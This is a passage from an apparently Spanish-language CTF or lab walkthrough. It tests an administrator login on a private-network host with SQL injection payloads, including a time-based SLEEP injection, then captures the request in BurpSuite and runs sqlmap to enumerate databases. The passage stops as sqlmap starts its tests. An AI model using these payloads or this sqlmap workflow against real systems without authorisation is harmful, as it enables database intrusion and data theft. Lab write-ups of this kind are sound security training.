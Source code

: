 ```
User: ' OR 1=1-- -
Pass: ' OR 1=1-- -
```

No hace nada, pero si probamos este otro `payload`:

```
User: ' OR SLEEP(5)-- -
Pass: ' OR SLEEP(5)-- -
```

Veremos que con esto si funciona y estaria cargando unos `10` segundos, por lo que es vulnerable a un `SQLi`, vamos a utilizar una herramienta que nos automatiza todo esto.

Antes vamos abrir `BurpSuite` para capturar la peticion (`Request`) de la pagina del `login` y utilizarlo con `sqlmap`, una vez que la tengamos tendremos que ver algo asi:

> request.txt

```
POST /administrator/login.php HTTP/1.1
Host: 192.168.5.74
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://192.168.5.74
Connection: keep-alive
Referer: http://192.168.5.74/administrator/
Cookie: PHPSESSID=r1hg757p0fmnnlj3qcs7c38he7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin&password=admin&submit=
```

Ahora vamos a utilizar `sqlmap` de esta forma:

## Escalate user bart

### sqlmap

```shell
sqlmap -r request.txt --dbs --batch
```

Info:

```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:35:09 /2025-08-10/

[03:35:09] [INFO] parsing HTTP request from 'request.txt'
[03:35:09] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[03:35:09] [INFO] testing connection to the target URL
```